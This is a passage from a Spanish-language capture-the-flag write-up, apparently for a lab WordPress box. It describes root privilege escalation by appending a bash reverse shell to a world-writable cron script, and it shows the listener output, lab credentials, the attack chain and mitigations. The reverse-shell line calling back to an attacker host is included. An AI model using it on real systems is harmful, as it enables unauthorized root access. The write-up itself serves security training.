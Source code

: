 El archivo **`/var/backups/script.sh`** tenía **permisos 777 (rwxrwxrwx)**, es decir, **world-writable** por cualquier usuario, **pero** era **ejecutado por root** desde cron: condición clásica para **Privilege Escalation**.

Se modificó el script para forzar una reverse shell hacia el host del atacante y se preparó el listener:

```bash
echo "bash -i >& /dev/tcp/10.23.120.245/8009 0>&1" >> /var/backups/script.sh
```

En el siguiente minuto de cron, se estableció la conexión inversa como **root**, confirmando la **comprometida escalada de privilegios**

**Resultado:**

```bash
─(zikuta㉿zikuta)-[~/Desktop/allinone]
└─$ nc -lvnp 8009
listening on [any] 8009 ...
connect to [10.23.120.245] from (UNKNOWN) [10.201.7.182] 35298
bash: cannot set terminal process group (3919): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-201-7-182:~#
```

## Evidencias clave (IOEs/artefactos)

- Registro de Nmap con **80/http, 21/ftp**** y **22/ssh** abiertos.
- WPScan mostrando **WordPress 5.5.1**, **XML-RPC** y plugins detectados (incl. **Mail Masta 1.0**).
- Lectura de `wp-config.php` con credenciales **`elyana / H@ckme@123`**.
- `crontab` con **`/var/backups/script.sh`** en ejecución por root + permisos **777** del script.


## Análisis del vector y cadena de ataque

1. **Postura débil de WordPress** (desactualización + superficie ampliada: XML-RPC, listado de uploads).
2. **Plugin vulnerable** que permitió **exfiltrar secretos** (db creds) y, en consecuencia, **acceso administrativo**.
3. **Editor de temas habilitado** → **RCE** mediante web-shell.
4. **Permisos inseguros** y **tarea programada de root** → **PE a root** sin necesidad de exploits kernel ni credenciales adicionales.


## Recomendaciones de mitigación

**Aplicación (WordPress)**

- **Actualizar** WordPress a una versión soportada y **eliminar/actualizar** plugins obsoletos (desinstalar **Mail Masta 1.0**).
- **Deshabilitar el editor de temas** en producción (`DISALLOW_FILE_EDIT` en `wp-config.php`).
- **Restringir/filtrar XML-RPC** (bloqueo por IP, plugins de seguridad, o deshabilitar si no es imprescindible).
- **Desactivar directory listing** en `wp-content/uploads/` 
- **Rotar credenciales** y usar **secret management**; evitar reutilización.
